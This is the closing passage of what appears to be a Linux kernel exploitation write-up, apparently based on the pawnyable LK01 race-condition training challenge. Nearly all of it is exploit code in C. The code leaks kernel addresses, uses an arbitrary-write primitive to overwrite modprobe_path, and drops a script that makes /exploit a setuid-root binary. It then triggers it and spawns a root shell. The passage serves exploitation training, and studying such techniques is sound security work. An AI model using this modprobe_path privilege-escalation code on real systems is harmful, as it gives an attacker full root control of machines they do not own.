 ```c

    // Sanity check in gdb
    //long long test = 0xcafebabecafebabe;
    //write(fd2, &test, 8);

    printf("[+] leaked kbase = 0x%llx\n", kbase);
    printf("[+] leaked g_buf = 0x%llx\n", g_buf);

    char cmd[] = "/tmp/xx\0";
    AAW32(modprobe_path, *(unsigned int*)&cmd[0], victim_fd);
    AAW32(modprobe_path + 4, *(unsigned int*)&cmd[4], victim_fd);

    puts("[+] Overwrote modprobe_path...");

    system("echo -e \"#!/bin/sh\nchown root:root /exploit\nchmod 4555 /exploit\" > /tmp/xx");
    system("chmod +x /tmp/xx");

    system("echo -e '\xff\xff\xff\xff' > /tmp/a");
    system("chmod +x /tmp/a");

    system("/tmp/a");

    puts("[+] Spawning a shell");
    system("/exploit a");

    return 0;
}
```
Thanks for reading!

# References

<https://pawnyable.cafe/linux-kernel/LK01/race_condition.html>

<https://elixir.bootlin.com/linux/v5.15/source/include/linux/tty.h>